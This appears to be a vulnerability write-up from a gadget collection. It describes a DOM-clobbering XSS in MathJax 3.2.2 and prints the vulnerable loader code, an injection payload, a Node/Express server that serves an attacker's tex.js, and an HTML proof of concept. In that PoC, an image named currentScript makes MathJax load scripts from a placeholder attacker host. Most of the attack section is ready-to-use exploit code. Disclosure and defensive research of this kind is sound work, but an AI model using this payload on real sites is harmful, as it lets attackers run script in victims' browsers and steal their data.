 ## MathJax

### Meta

+ Library: MathJax
+ Version: 3.2.2
+ Fingerprint: `MathJax.version == "3.2.2"`
+ Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$```
+ Impact: XSS
+ Foundby: TheHulk


### Library

URL: 
+ `https://cdn.jsdelivr.net/npm/mathjax@3.2.2/es5/tex-mml-chtml.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mathjax/3.2.2/es5/tex-mml-chtml.js`

### Vulnerable Code Snippet

```javascript
t.getRoot = function() {
    var t = "//../../es5";
    if ("undefined" != typeof document) {
        var e = document.currentScript || document.getElementById("MathJax-script");
        e && (t = e.src.replace(/\/[^\/]*$/, ""))
    }
    return t
}
```
```javascript
prefix: function(t) {
    for (var r; (r = t.name.match(/^\[([^\]]*)\]/)) && e.CONFIG.paths.hasOwnProperty(r[1]); )
        t.name = e.CONFIG.paths[r[1]] + t.name.substr(r[0].length);
    return !0
}
```

## PoC

Note that some MathJax instances may be configured differently. If the image loads before MathJax is started, then `MathJax.config.loader.paths.mathjax` should be clobbered. Then, check `MathJax.config.loader.paths` or `MathJax.config.loader.source` to see what dependencies can be loaded in.

Please note that for the following proof of concept, you will need to replace `xxx.xxx.xxx` with your own server address.
```
const express = require('express');
const path = require('path');

const app = express();
const port = 3000; 

app.get('/input/tex/extensions/tex.js', (req, res) => {
  const filePath = path.join(__dirname, 'poc', 'tex.js');
  res.sendFile(filePath);
});

// Start the server
app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```

### PoC #1
```html
<img name="currentScript" src="https://xxx.xxx.xxx:3000"></img>

<script id="MathJax-script" async src="https://cdn.jsdelivr.net/npm/mathjax@3/es5/tex-mml-chtml.js"></script>

$$\require{tex}$$
```
